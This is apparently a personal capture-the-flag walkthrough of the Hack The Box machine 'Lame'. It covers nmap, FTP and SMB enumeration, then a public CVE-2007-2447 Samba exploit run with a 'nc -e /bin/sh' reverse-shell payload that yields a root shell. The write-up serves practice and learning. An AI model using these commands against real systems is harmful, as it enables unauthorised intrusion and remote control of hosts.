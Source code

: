 ![[Pasted image 20240720105341.png]]

**Ping Scan**
```
ping 10.10.10.3
```
![[Pasted image 20240610204904.png]]
Ping worked, So machine is reachable.

**Nmap default**
```
nmap 10.10.10.3 -oN dnmap
```
![[Pasted image 20240610205000.png]]

**Nmap Scrip scan**
```
nmap 10.10.10.3 -sV -sC -oN snmap
```
![[Pasted image 20240610205430.png]]
![[Pasted image 20240610205447.png]]

**Nmap SNMP Scan**
```
nmap -sU -p 161 10.10.10.3
```
Snmp is filtered
![[Pasted image 20240610211418.png]]

**Nmap all port Scan**
```
nmap 10.10.10.3 -p- -T5 --open -oN anmap
```
can see an new open port 3632.
![[Pasted image 20240610210628.png]]

Scrip and service scan for the new port
```
nmap -sV -sC -p3632 10.10.10.3 -oN 3632nmap
```
![[Pasted image 20240610211318.png]]


**FTP Enum**
Can login as ftp or Anonymous, but no file or directory inside Ftp Session.
```
ftp 10.10.10.3
```
![[Pasted image 20240610205641.png]]

**Smb Enumeration**
```
smbmap -H 10.10.10.3
```
Can list shares without creds.
![[Pasted image 20240610205845.png]]

```
smbclient -N //10.10.10.3/tmp
```
can list the content of share ''tmp''
![[Pasted image 20240610210151.png]]


Lets try to Get initial foothold on the machine using our findings.

First will move with the Smb Share we have found read and writable.
We can se the is a file "vgauthsvclog.txt.0" is present, will get that and analyze.
```
get vgauthsvclog.txt.0
```
![[Pasted image 20240610212722.png]]

```
cat vgauthsvclog.txt.0
```
![[Pasted image 20240610213013.png]]
Nothing useful.

**Search For Public exploit**
On this initial enumeration on smb, we can see its  version, will search is there any public exploit for smb version.
Yes, there is an exploit code: https://github.com/Ziemni/CVE-2007-2447-in-Python/blob/master/smbExploit.py
![[Pasted image 20240610213247.png]]
![[Pasted image 20240610213345.png]]

**Ok No will use the exploit.**
I have saved the exploit code in a file named 'exp.py' in my kali machine and just ran the program, and I can see the usage and ran accordingly.
```
python3 exp.py 10.10.10.3 139 'nc -e /bin/sh 10.10.14.61 443'
```
![[Pasted image 20240610213422.png]]

**Set up an Netcat listener on 443 to catch reverse shell**
```
rlwrap nc -nlvp 443
```
![[Pasted image 20240610213652.png]]
Coooool....! We landed on root shell, so no need Privilege escalation on the machine.

Then upgraded my shell, the machine has python's initial version, there is no python 3 or 2.
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
![[Pasted image 20240610213805.png]]

Will search for flag in root and home directory
```
find / -type f -name "root.txt" 2>/dev/null
```
```
find / -type f -name "user.txt" 2>/dev/null
```
![[Pasted image 20240610214312.png]]

We found root flag in root directory
![[Pasted image 20240610213946.png]]

And User flag on /home/makis
![[Pasted image 20240610214456.png]]



Done With Lame....:)
